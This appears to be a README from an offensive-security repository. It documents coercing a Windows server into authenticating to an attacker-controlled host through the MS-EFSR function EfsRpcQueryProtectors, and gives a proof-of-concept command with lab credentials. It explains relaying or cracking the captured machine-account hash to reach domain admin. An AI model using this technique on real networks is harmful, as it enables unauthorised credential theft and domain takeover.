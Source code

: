 # MS-EFSR - Remote call to EfsRpcQueryProtectors (opnum 22)

## Summary

+ **Protocol**: [[MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31)

+ **Protocol UUID**: c681d488-d850-11d0-8c52-00c04fd90f7e

+ **Protocol version**: 1.0

+ **SMB Named pipe**: `\pipe\efsrpc`

+ **Function name**: [`EfsRpcQueryProtectors`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/ce7a5c85-9358-43a3-afd2-173a666cd407)

+ **Function operation number**: `22`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\pipe\efsrpc` and bind to the desired [`MS-EFSR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) protocol (with uuid `c681d488-d850-11d0-8c52-00c04fd90f7e` and version `1.0`) in order to perform remote procedure calls to functions in the [`MS-EFSR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\pipe\efsrpc` This pipe is connected to the protocol [[MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) and allows to call RPC functions of this protocol. We will then call the remote [`EfsRpcQueryProtectors`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/ce7a5c85-9358-43a3-afd2-173a666cd407) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
EfsRpcQueryProtectors('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
DWORD EfsRpcQueryProtectors(
   [in] handle_t binding_h,
   [in, string] wchar_t* FileName,
   [out] PENCRYPTION_PROTECTOR_LIST **ppProtectorList 
 );
```

## References

+ Documentation of protocol [MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31

+ Documentation of function `EfsRpcQueryProtectors`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/ce7a5c85-9358-43a3-afd2-173a666cd407